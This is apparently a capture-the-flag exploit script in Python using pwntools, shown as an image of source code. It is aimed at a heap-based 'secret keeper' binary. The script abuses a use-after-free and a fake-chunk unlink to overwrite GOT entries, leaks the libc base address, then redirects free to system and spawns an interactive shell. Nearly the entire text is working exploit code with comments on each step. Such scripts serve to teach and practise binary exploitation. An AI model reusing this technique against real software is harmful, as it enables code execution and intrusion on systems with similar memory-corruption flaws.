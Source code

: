 ```python
    r.sendlineafter("Tell me your secret:", content)


keep('huge', 'A' * 8)
wipe('huge')
keep('small', 'B' * 8)
wipe('small')
keep('huge', 'C' * 8) # now buf_huge and buf_small point to the same adr
wipe('small') # free the huge by use buf_small

keep('small', 'D' * 8)
keep('big', 'E' * 8) # now we can use renew() huge overflow 

fake_fd = 0x6020a8-0x18 # FD
fake_bk = 0x6020a8-0x10 # BK

# overflow big to fake chunk info make it fastbin
payload = ""
payload += p64(0x0) + p64(0x21)  # fake prev_chunk header
payload += p64(fake_fd) + p64(fake_bk) 
payload += p64(0x20) # fake big chunk's prev_size
payload += p64(0xfb0) # fake big chunk size
payload += 'B' * 0x80
renew('huge', payload)

wipe('big')

payload = ""
payload += 'A' * 0x10 + p64(0)
payload += p64(0x6020b0) # make buf_huge points to buf_small
payload += p64(free_got) # buf_small points to GOT of free
renew('huge', payload)

renew('small', p64(puts_got_value) * 2) # after this free(buf) ==> puts(buf) * 2 so that puts won't break

# make buf_small points to libc_start_main_got
# wipe(small) -> free(small) -> puts(small) -> puts(libc_start_main)
renew('huge', p64(libc_start_main_got) + p32(1) * 3) # p32(1) for inuse variable of those small big huge secret since renew() will check it
wipe('small')
x = r.recvline(1)
print repr(x)

#libc = ELF('/root/glibc-2.19/64/lib/libc.so.6')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('libc.so.6')
base = u64(x[:6].ljust(8,'\x00')) - libc.symbols['__libc_start_main']
print hex(base)
system = base + libc.symbols['system']

renew('huge', p64(free_got) + p32(1) * 3) # make buf_small points to GOT of free
renew('small', p64(system) + p64(puts_got_value)) # GOT hijack free to system

renew('huge', p64(0x6020b8)+'sh\x00')
wipe('small') # wipe(small) -> free(small) -> system(small) -> system('sh')

r.interactive()
```
